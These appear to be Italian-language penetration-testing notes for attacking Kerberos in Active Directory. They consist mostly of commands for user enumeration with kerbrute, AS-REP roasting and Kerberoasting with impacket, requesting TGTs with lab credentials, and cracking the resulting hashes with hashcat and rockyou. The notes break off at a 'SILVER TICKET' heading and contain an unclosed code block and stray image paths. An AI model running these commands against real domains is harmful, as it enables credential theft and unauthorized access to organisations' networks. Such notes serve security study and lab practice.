 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **AspeRoasting**

```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash
### **Kerberoasting**
```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **TGT BruteForce**
```bash
impacket-getTGT 'essos.local/khal.drogo:horse'
```
```bash


### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### **SILVER TICKET**
